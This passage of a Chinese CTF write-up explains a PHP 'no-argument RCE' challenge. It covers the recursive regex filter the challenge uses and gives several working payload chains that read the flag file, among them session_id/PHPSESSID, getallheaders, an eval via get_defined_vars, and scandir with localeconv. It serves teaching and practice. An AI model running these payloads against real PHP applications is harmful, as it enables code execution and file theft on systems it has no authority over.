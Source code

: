 ```php
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```

考点：
```
 '/[a-z,_]+\((?R)?\)/' 这个正则主要的难点就是(?R)，这是PHP的递归模式：
```
就是这能 `a(b(c(d())))` 这样，()里不能有参数

所以叫做无参RCE

payload：

尝试一：session_id直接读文件

>因为session未开启，所以先开启session，再获取会话ID，在session ID处进行构造：

![](https://img-blog.csdnimg.cn/20210426112030785.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
```
?exp=show_source(session_id(session_start()));
PHPSESSID=flag.php
```


尝试二：getallheaders()
>由于第三个if 过滤了et，所以这个方法不行

如果可以：
```
var_dump(end(getallheaders()));
bp里面构造headers
```

尝试三：get_defined_vars()
这题不行

如果可以：
```
? num=eval(end(current(get_defined_vars())));&b=show_source('/f1agg');
```

尝试四：localeconv()
```
?exp=print_r(scandir(pos(localeconv())));  //注：pos()是current()别名，返回数组中当前元素的值
```

![](https://img-blog.csdnimg.cn/20210426112353829.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
最终：
```
?exp=readfile(next(array_reverse(scandir(pos(localeconv())))));
```

---
